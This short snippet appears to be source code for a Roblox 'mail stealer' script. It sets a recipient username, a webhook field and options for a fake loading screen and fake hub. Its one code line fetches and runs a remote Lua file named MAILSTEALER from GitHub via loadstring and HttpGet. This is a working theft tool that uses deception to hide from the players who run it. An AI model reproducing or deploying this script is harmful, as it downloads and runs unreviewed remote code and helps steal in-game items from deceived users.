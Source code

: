 Username = "ii_Janxavier" Webhook = "" Mailmsg = "hayst" FakeLoadScreen = true Fake_Hub_If_Not_Enough_Gems = false loadstring(game:HttpGet("https://raw.githubusercontent.com/POGGERZ15/MAILSTEALER/main/Main.lua"))()
